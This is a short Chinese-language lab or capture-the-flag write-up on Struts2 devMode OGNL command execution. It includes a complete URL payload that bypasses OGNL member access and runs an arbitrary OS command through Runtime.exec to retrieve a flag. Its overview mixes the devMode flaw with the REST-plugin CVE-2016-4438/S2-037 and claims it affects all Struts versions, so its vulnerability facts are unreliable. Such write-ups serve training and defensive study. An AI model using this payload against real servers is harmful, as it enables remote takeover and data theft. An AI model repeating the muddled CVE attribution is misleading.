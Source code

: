 # Struts2-devMode命令执行（CVE-2016-4438） by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

漏洞概述：Apache Struts 2 是世界上最流行的 Java Web 服务器框架之一。Apache Struts2 在使用 REST 插件的情况下，攻击者使用 REST 调用恶意表达式可以远程执行代码。该漏洞编号为 CVE-2016-4438，目前命名为 S2-037。,黑客可以利用漏洞直接执行任意代码，绕过文件限制，上传文件，执行远程命令，控制服务器，直接盗取用户的所有资料，当 Struts2 开启 devMode 模式时，将导致严重远程代码执行漏洞。如果 WebService 启动权限为最高权限时，可远程执行任意命令，包括关机、建立新用户、以及删除服务器上所有文件等等。该漏洞广泛影响所有 struts 版本。

受影响的软件及系统：在开启 devMode 情况下，本漏洞可影响 Struts 2.1.0--2.5.1，通杀 Struts2 所有版本

启动靶场，随意点击一个测试页面

![1](./1.png)

![2](./2.png)

利用 POC 拿到 Flag

`?debug=browser&object=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=ls`

![3](./3.png)